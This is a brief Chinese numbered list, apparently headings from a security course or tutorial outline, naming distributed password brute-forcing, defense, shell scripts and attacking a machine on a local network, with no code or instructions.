2. 分布式暴力解密码
3. 防御
4. shell脚本
5. 攻击局域网某台机器
